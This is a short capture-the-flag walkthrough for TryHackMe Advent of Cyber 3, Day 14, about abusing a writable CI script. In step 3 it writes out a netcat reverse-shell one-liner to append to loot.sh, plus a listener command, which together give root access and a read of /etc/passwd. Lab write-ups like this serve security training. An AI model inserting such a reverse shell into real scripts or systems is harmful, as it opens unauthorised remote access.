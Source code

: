 ```yaml
---
title: Day 14
layout: page
permalink: /CTF/adventofcyber3/day14
tags: TryHackMe
---
```


# Day-14:Dev(Insecure)Ops
# ![front](/images/aoc3/d14/front.png)
[https://tryhackme.com/room/adventofcyber3](https://tryhackme.com/room/adventofcyber3)


## Gaining Access
1. Using dirb command to find <br>
➟ 4 Directories
2. Number of scripts<br>
![scripts](/images/aoc3/d14/script.png)
3. Inside loot.sh add netcat reverse shell one liner `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` then start a listner at attacker's machine `nc -lvnp 1234` wait for a minute and you will have the root access
* cat /etc/passwd<br>
![pepper](/images/aoc3/d14/pepper.png) 
4. Flag:<br>
![flag](/images/aoc3/d14/flag.png)